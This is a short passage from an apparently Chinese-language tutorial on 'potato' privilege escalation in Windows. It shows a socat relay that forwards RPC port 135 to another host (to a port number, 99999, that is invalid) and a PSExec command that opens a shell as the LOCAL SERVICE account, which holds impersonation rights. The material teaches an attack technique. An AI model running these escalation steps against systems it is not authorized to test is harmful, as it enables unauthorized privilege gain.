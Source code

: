 ```
socat tcp-listen:135,reuseaddr,fork tcp:192.168.47.177:99999
```

![image-20240124173336058](土豆提权原理/image-20240124173336058.png)



使用`PSExec.exe`来创建一个本地服务用户的cmd，此用户具有`SeimpersonatePrivilege`权限

```
PSExec64.exe -i -u "nt authority\local service" cmd.exe
```

<img src="土豆提权原理/image-20240124174028471.png" alt="image-20240124174028471" style="zoom:67%;" />	
